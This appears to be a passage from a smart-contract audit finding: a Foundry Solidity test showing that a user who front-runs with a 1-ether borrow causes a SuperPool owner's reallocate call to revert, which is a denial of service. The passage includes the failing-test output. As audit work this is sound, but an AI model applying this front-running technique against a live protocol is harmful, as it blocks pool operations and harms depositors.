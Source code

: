 ```solidity
        reAllocateDeposits[0] = (SuperPool.ReallocateParams(fixedRatePool, 40 ether));
         reAllocateDeposits[1] = (SuperPool.ReallocateParams(linearRatePool, 50 ether));
        reAllocateWithdrawals[0] = (SuperPool.ReallocateParams(linearRatePool, 50 ether));
         reAllocateWithdrawals[1] = (SuperPool.ReallocateParams(fixedRatePool, 50 ether));

    
 


      vm.startPrank(user);
        asset2.approve(address(positionManager), 2e18);
        asset3.approve(address(positionManager), 1e18);

        // deposit 1e18 asset2, borrow 1e18 asset1
        Action[] memory actions = new Action[](6);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 2e18);
        actions[2] = deposit(address(asset3), 1e18);

        actions[3] = addToken(address(asset2));
        actions[4] = addToken(address(asset3));
        actions[5] = borrow(fixedRatePool, 1e18);
     
        positionManager.processBatch(position, actions);
        vm.stopPrank();






        vm.prank(poolOwner);

        superPool.reallocate(reAllocateWithdrawals, reAllocateDeposits);

   
    }
```
```solidity
Failing tests:
Encountered 1 failing test in test/core/Superpool.t.sol:SuperPoolUnitTests
[FAIL. Reason: Pool_InsufficientWithdrawLiquidity(57434361982780479954068976798695147770458926047813837143048764453559102174233 [5.743e76], 49000000000000000000 [4.9e19], 
50000000000000000000 [5e19])] testAMoreComplexScenario() (gas: 1542137)

```
By front running and borrowing 1 ether user successfully DOS reallocate.



## Code Snippet
